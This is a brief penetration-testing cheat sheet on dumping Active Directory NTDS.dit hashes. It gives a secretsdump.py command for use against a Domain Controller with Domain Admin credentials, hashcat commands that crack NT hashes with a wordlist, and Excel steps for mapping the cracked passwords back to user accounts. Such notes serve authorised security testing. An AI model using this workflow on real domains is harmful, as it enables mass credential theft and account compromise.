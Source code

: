 NTDS.dit - DB used to store AD data including User/Group Info & Password Hashes

Dumping NTDS.dit (run the command against the Domain Controller with a Domain Admin's details):
```bash
secretsdump.py [DOMAIN]/[USERNAME]:'[PASSWORD]'@[IP_ADDRESS] -just-dc-ntlm
```
Grab the NT to crack.
![image](https://github.com/user-attachments/assets/07b7e977-4a39-43a0-9c59-9242457cefc9)

# Crack all NTDS.dit NT hashes
* Copy the full NTDS.dit and paste it all into excel.
* In excel, goto Data > Text to Columns > Delimited > Next > Delimiters - Other: ":" > Next > Finish.
* This will split the NTDS.dit into the following columns: Users, rID, LM hash, NT hash
* Copy all the NT hashes.
* Create a file with all the hashes pasted.
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt --show
```
* Copy the output and paste it on a new excel sheet. 
* Highlight the cracked passwords column, then select Home > Numbers > Dropdown menu that says "General", and change it to "Text".
* Go back to the first sheet (that stores the full NTDS.dit) and select the first box in the next column.
* Type into the box "=vlookup([CLICK A HASH VALUE], [CLICK BOTH COLUMNS ON THE OTHER EXCEL SHEET], 2, false" 
* Double click the corner of the vlookup box so that it looks up all the hashes.
